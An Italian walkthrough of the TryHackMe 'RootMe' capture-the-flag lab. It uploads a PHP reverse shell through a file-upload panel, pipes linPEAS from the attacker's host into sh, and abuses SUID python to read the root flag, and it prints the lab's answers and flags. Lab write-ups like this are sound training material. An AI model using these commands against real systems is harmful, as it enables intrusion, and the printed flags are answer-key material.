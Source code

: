 # RootMe

RootMe è un Capture The Flag (CTF) di livello facile, progettato per sviluppare competenze avanzate di penetration testing e escalation dei privilegi. Iniziamo il nostro viaggio accedendo alla macchina bersaglio tramite la nostra Kali Linux e avviando una scansione Nmap per esplorare le porte e i servizi disponibili.

```sh
└─$ sudo nmap -p- -sS -A 10.10.152.152
```
![Alt text](img/image.png)

I risultati della scansione rivelano due porte aperte: la porta 22 per SSH e la porta 80 per HTTP. Queste informazioni ci permettono di rispondere a tre domande fondamentali:

$${\color{red}Scan \space the \space machine, \space how \space many \space ports \space are \space open?
} \space {\color{green}2}$$

$${\color{red}What \space version \space of \space Apache \space is \space running?
} \space {\color{green}2.4.29}$$

$${\color{red}What \space service \space is \space running \space on \space port \space 22?
} \space {\color{green}SSH}$$

Dopo la scansione, ci dirigiamo verso il servizio HTTP sulla porta 80. Nonostante un'animazione accattivante, decidiamo di utilizzare goBuster per individuare eventuali directory nascoste.

![Alt text](img/image-1.png)

```sh
└─$ gobuster dir -u "http://10.10.152.152:80" -w /usr/share/wordlists/dirb/common.txt
```
![Alt text](img/image-2.png)

All'interno della directory "/panel/", scopriamo un'area dedicata al caricamento di file, indicando la possibilità di un potenziale exploit. Sfruttando l'ambiente Apache, carichiamo una reverse shell in PHP dopo averla personalizzata con il nostro indirizzo IP e la porta. Successivamente, mettiamo in ascolto con Netcat prima di interagire con la nostra reverse shell attraverso la directory "/uploads/".

$${\color{red}What \space is \space the \space hidden \space directory?
} \space {\color{green}/panel/}$$

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php]

![Panel](img/image-3.png)

![Uploads](img/image-4.png)

```sh
└─$ nc -lnvp 4444
```
Una volta ottenuto l'accesso al sistema, procediamo alla ricerca del file "user.txt".
![Alt text](img/image-5.png)

```sh
└─$ find / -name user.txt 2>/dev/null
```
![Alt text](img/image-6.png)

<span style="color:red">user.txt</span>
<span style="color:green">THM{y0u_g0t_a_sh3ll}</span>

Rispondiamo alla prima domanda del Task 4, eseguendo una ricerca dei file con permessi SUID.

```sh
└─$ find / -user root -perm /4000
```
Identificando il file "weird" nella directory "/usr/bin/python", approfondiamo ulteriormente l'analisi. Scarichiamo linPEAS sulla nostra macchina e lo trasferiamo al sistema bersaglio attraverso un server web Python temporaneo e in fine lo eseguiremo.

![Alt text](img/image-8.png)

$${\color{red}Search \space for \space files \space with \space SUID \space permission, \space which \space file \space is \space weird?
} \space {\color{green}/usr/bin/python}$$

Ora per prendere l'ultima flag devo scalare i privilegi e per farlo mi aiuto con linPEAS.<br>
quindi lo scarico sulla mia macchina da qui
https://github.com/carlospolop/PEASS-ng/releases/tag/20231231-3221ac1a

```sh
└─$ sudo python -m http.server 8000
└─$ curl 10.14.65.216/linpeas.sh | sh
```

L'output di linPEAS evidenzia numerosi riferimenti a "python", aprendo la possibilità di utilizzarlo per leggere il contenuto del file "root.txt" nella directory "/root/".

```sh
└─$ python -c 'print(open("/root/root.txt").read())' 
```
Rispondendo all'ultima domanda del CTF, otteniamo il flag di root:

![Alt text](img/image-7.png)

$${\color{red}root.txt
} \space {\color{green}THM\{pr1v1l3g3_3sc4l4t10n\}}$$


